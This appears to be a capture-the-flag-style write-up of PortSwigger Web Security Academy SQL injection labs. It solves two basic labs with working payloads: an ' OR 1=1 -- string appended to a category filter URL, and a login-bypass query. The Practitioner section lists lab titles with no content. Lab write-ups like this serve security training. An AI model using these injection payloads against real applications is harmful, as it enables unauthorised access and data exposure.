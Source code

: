 # SQL injection

## Basics

### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

This lab contains an SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

    SELECT * FROM products WHERE category = 'Gifts' AND released = 1

To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased. 

Trying `/product?productId=7'`:

| ![Basic SQLi](../../_static/images/sqli-basic1.png) |
|:--:|
| ![Basic SQLi](../../_static/images/sqli-basic2.png) |
| ![Basic SQLi](../../_static/images/sqli-basic3.png) |

Trying `Category=Pets'`:

| ![Basic SQLi](../../_static/images/sqli-basic4.png) |
|:--:|
| ![Basic SQLi](../../_static/images/sqli-basic5.png) |
| Bingo! |

Payload:

    https://<random-string>.web-security-academy.net/filter?category=Pets' OR 1=1 -- 

### SQL injection vulnerability allowing login bypass

This lab contains an SQL injection vulnerability in the login function.

To solve the lab, perform an SQL injection attack that logs in to the application as the `administrator` user. 

SQL:

    SELECT * FROM users WHERE username = 'administrator' AND password = '' OR 1=1 --

| ![Basic SQLi](../../_static/images/sqli-basic6.png) |
|:--:|
| ![Basic SQLi](../../_static/images/sqli-basic7.png) |

## Practitioner

### SQL injection UNION attack, determining the number of columns returned by the query

### SQL injection UNION attack, finding a column containing text

### SQL injection UNION attack, retrieving data from other tables

### SQL injection UNION attack, retrieving multiple values in a single column

### SQL injection attack, querying the database type and version on Oracle

### SQL injection attack, querying the database type and version on MySQL and Microsoft

### SQL injection attack, listing the database contents on non-Oracle databases

### SQL injection attack, listing the database contents on Oracle

### Blind SQL injection with conditional responses

### Blind SQL injection with conditional errors

### Blind SQL injection with time delays

### Blind SQL injection with time delays and information retrieval

### Blind SQL injection with out-of-band interaction

### Blind SQL injection with out-of-band data exfiltration

### SQL injection with filter bypass via XML encoding
